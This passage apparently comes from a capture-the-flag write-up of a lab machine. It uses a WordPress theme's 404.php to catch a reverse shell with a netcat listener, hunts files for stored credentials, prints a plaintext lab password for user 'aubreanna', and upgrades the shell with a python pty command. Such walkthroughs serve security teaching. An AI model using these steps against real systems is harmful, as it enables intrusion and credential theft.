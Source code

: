### And by opening the 404.php url 
```
https://10.10.51.186/blog/wp-content/themes/twentyseventeen/404.php
```

### And boom we got the shell 
```
nc -lnvp 4444 
listening on [any] 4444 ...
connect to [10.9.52.153] from (UNKNOWN) [10.10.113.87] 59406
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 12:55:14 up 48 min,  0 users,  load average: 0.19, 0.25, 0.15
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### So lets enumerate the server 

### Here we find the user aubreanna which is not accessable by the www-data 
### So we tried the command 
```
locate *.txt 
```
### And here we find the wp-save.txt text file on
```
/opt/wp-save.txt
```

### We got the creds of user aubreanna in this file 
```
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123

```

### Let's try to switch the user to aubreanna, for that we have to get a tty shell for that we have to put the cmd
```
$ python -c "import pty;pty.spawn('/bin/bash')"
```
